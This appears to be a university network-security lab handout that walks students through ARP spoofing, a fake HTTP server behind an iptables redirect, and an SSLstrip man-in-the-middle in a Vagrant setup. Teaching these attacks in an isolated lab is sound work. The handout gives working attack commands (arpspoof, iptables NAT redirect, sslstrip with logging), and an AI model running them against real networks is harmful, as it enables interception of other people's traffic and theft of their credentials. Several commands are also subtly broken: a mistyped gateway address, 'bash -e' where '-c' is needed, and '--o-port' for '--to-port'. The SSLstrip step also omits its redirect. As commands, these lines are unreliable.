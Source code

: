 # CSCD27 Lab 8: ARP spoofing and SSLStripping

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

## Initial check

*As Alice*, test that Mathlab is reachable:

```shell
vagrant@alice:~$ curl http://mathlab.utsc.utoronto.ca/
```

## ARP Spoofing (Denial Of Service)

In this part, Mallory wants to disrupt the communication between Alice and the Gateway. To do so, Mallory will broadcast spoofed ARP packets to Alice saying that the gateway can be reached through Mallory's physical address.

1. *As Mallory (terminal 1), broadcast spoofed ARP messages to Alice (10.0.1.101) pretending to be the gateway (10.0.1.100):

```shell
vagrant@mallory:~$ arpspoof -i eth1 -t 10.0.1.101 10.1.100
```

2. Finally:
- *As Alice*, test that Mathlab is no longer reachable.
- *As Mallory*, use Wireshark to see ARP spoofed messages and failed TCP messages

## ARP Spoofing (fake HTTP server)

In this part, rather than disrupting the communication between Alice and the Gateway, Mallory wants to setup a fake HTTP server pretending to be Mathlab. To do so, Mallory will first redirect HTTP messages to a fake server before spoofing the ARP messages.

1. As Mallory (terminal 2), redirect HTTP traffic (port 80) to port 8080 (Mallory's fake server)

```shell
vagrant@mallory:~$ sudo bash -e "echo '1' > /proc/sys/net/ipv4/ip_forward"
vagrant@mallory:~$ sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --o-port 8080
```

2. As Mallory (terminal 2), start a fake HTTP server listening on port 8080

```shell
vagrant@mallory:~$ cd /vagrant/mallory/fake_http
vagrant@mallory:~$ python -m SimpleHTTPServer 8080
```

3. *As Mallory (terminal 1), broadcast spoofed ARP messages as done previously

4. Finally:
- *As Alice*, test that Mathlab is now reachable (but is it really mathlab?)
- *As Mallory*, use Wireshark to see the (fake) HTTP exchange

## ARP Spoofing (fake HTTPS server)

How could Mallory setup the attack if Alice tries to connect to Mathlab using HTTPS?

```shell
vagrant@alice:~$ curl https://mathlab.utsc.utoronto.ca/
```

## SSLStripping

In this part, rather than redirecting Alice to a fake HTTPS server, Mallory wants to relay traffic between Alice and Mathlab as a man-in-the-middle attack. The goal is to fool Alice into sending non-encrypted HTTPS requests to Mallory.

1. As Mallory (terminal 2), forward all HTTPS traffic to the SSLStrip proxy.

```shell
vagrant@mallory:~$ cd sslstrip-0.9
vagrant@mallory:~$ python sslstrip.py -a -w log.txt -l 8080 -f
```

2. Finally:
- *As Alice*, test that (real) Mathlab is now reachable with HTTPS
- *As Mallory*, open the file `log.txt` and see all HTTPS traffic